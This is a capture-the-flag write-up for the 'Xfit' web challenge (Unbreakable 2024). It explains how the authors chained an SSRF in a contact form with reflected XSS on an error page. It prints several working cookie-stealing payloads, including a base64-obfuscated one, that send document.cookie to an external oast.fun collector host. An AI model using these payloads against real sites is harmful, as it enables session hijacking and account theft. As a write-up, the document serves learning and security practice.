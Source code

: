 ```yaml
---
title: Xfit
date: 2024-04-07T14:23:28+03:00
description: Writeup for Xfit [Unbreakable 2024]
author: H0N3YP0T
tags:
- web
draft: false
---
```

___

## DISCLAIMER

This challenge was not solved during the competition, but we were really close of the solution and spend a lot of time on it. We decided to write a writeup to
describe our approach and the solution we found after the competition.

## Challenge Description

Picture this: within the vast expanse of the digital realm, lies a crucial secret vault—a clandestine cache known as cookies. But beware, for these digital treasures are not scattered haphazardly. No, they are meticulously guarded within the confines of their respective domains, each one a sentinel of its cyber kingdom. It's a thrilling saga of hidden treasures and guarded gateways, where the very essence of your online identity hangs in the balance!


## Intuition

The description mention subdomains and cookies. Combining these two and the name of the challenge,
I assumed I had to steal cookie by using XSS. The website is a static one with only two endpoints:
 - `/contact` which send an email (it seems only the message parameter is required)
 - `/error?err=404` which returns a 404 error page (or 500, 200, ...)

![img.png](/images/unbreakable_2024/contact.png)
![img_1.png](/images/unbreakable_2024/err.png)

Here we can see the request to the `/contact` endpoint.

![img.png](/images/unbreakable_2024/request.png)

## What we tried

First we tried to remove all parameter from the request in order to see the behavior of the website.
We noticed we received some parsing error with a findLinks function. It gave us a hint about a potential SSRF or 
CSRF vulnerability.

![img.png](/images/unbreakable_2024/parse.png)

In order to confirm that wa tried to request a server under our control with this [tool](https://app.interactsh.com/#/).

![img.png](/images/unbreakable_2024/test.png)
![img_1.png](/images/unbreakable_2024/response.png)

As we can see above we got the request which means the server is visiting the link we provided.

Going back to the error page, it seems that the error parameter is vulnerable to XSS as the following picture shows.

![img.png](/images/unbreakable_2024/xss.png)

```js
<img src=x onerror=confirm(1)>
```

Knowing that we can now steal the cookie using the following logic:
 - Send a message to the `/contact` endpoint with the following payload:
```js
http://127.0.0.1/error.html?err=<img+src=x+onerror="document.location='http://xhtfiwjfrxvxawnsmojcux2nwwez03yx3.oast.fun/?c='%2Bdocument.cookie">
```
 - Wait for the server to visit the error page
 - The admin's cookie will be sent to our server
 - Profit

![img.png](/images/unbreakable_2024/trying.png)

Unfortunately we do not receive any cookie it seems the parsing is not working as expected.

![img.png](/images/unbreakable_2024/noCookie.png)

The supposition is that the parsing ignore the first part of the URL (green part below) but 
only understand the second part as URL (blue part below). Therefore, it does not execute any javascript which
means we cannot steal the cookie.

![img.png](/images/unbreakable_2024/fail.png)

To bypass this we decided to base64 encode the second part with this payload:

```js
http://127.0.0.1/error.html?err=<img+src=x+onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly94aHRmaXdqZnJ4dnhhd25zbW9qY3V4Mm53d2V6MDN5eDMub2FzdC5mdW4vP2M9Jytkb2N1bWVudC5jb29raWU='))">
```

Unfortunately, this time, we did not receive any request on our server, so we assumed the parsing had some anti-SSRF
protection by blacklisting the localhost / 127.0.0.1 IP.

We started a lot of bypass techniques such as `http://0177.0.0.01`, `http://0x7f.0x0.0x0.0x1` and many more without success.

## Solution

We were pretty close of the actual solution by we were wrong by thinking the paring blacklisted the localhost IP.
We just used the wrong payload obfuscation by using base64. The correct payload was the same as the original one we did,
but URL encoding the special characters and from what I remember we also tried so WHAT THE F*** ???

```js
http://localhost/error.html?err=%3Cimg%20src%3Dx%20onerror%3Ddocument%2Elocation%3D%22http%3A%2F%2Fzyeapckdjkrwivdzxeeabjaadiyukbx8f%2Eoast%2Efun%2F%3Fc%3D%22%2Bdocument%2Ecookie%3E
```

In conclusion the challenge fu**** us because when we tried it,
the server either did not execute the javascript (document.cookie) or the server just crashed except 
one time for random and mysterious reason.

![img.png](/images/unbreakable_2024/fuck.png)



